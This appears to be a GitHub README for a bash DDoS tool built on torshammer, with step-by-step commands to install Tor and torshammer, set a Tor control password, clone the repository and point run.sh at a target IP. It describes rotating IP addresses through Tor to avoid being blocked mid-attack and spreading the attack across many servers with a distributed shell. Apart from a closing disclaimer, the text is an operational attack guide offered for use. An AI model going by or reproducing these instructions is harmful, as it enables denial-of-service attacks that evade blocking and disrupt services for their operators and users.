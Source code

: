 # AutoIpChangingDDos
DDos Bash Script written around torshammer with an automatic IP changer to avoid IP blocking durring attack

<h1>HOW TO USE</h1> 
First install torshammer on your server that is running Debian 9<br><br><br>
<code>sudo apt-get update -y && sudo apt-get install tor netcat screen git -y && systemctl enable tor && service tor start </code>
<br>
Then generate a password hash used in your torrc file located at<br> 
/etc/tor/torrc<br>
<br>
<code>tor --hash-password "password"</code><br>
Then add it to line number 59 in /etc/tor/torrc 
example <br>
<code>
admin@vps:~# tor --hash-password "password"</code>
<code></code>
<code>16:D2DAF2F6F4419C9660155C7AED45177492363345A981CCCCB3659172F5</code>
</code><br><br>
In Your torrc file it should look like:<br>
<code>#HashedControlPassword 16:D2DAF2F6F4419C9660155C7AED45177492363345A981CCCCB3659172F5</code>
<br><br>
At this point you want to install torshammer by running<br><br>
<code>git clone https://github.com/dotfighter/torshammer</code><br><br>
Then go into the folder torshammer and mv everything into the root folder<br>
<code>cd torshammer && mv * .. && cd ..</code><br><br>
At this point clone this repo but move the script to the root folder also <br>
<code>git clone https://github.com/Y0urN3w0wn3r/AutoIpChangingDDos && cd AutoIpChangingDDos && cp * ..</code><br><br>
Now you are ready to test your first target.<br> 
<code>nano run.sh</code><br>
Edit the IP address on line 34 to your targets ip you want to test
and save it using CTRL+O then CTRL+X
<br><br><br>
Allow it to execute with the following command
<br><code>sudo chmod +x run.sh</code>
<br>Run it with 
<br><code>./run.sh</code>
<br><br>You can use a distributed shell like "DSH" to make this a distributed attack by using multiple servers at one time. 
<br>To learn how to do that see this guide
<br><a href="https://github.com/Y0urN3w0wn3r/AutoIpChangingDDos/wiki/How-to-setup-DSH">HERE</a>
<br><br><i><b>DISCLAIMER: The information provided is for educational/testing purposes only and is not intended to be used on any service without first obtaining consent for testing. This attack is Illegal and can get you arrested if you use it on a service without permission. This is your only warning
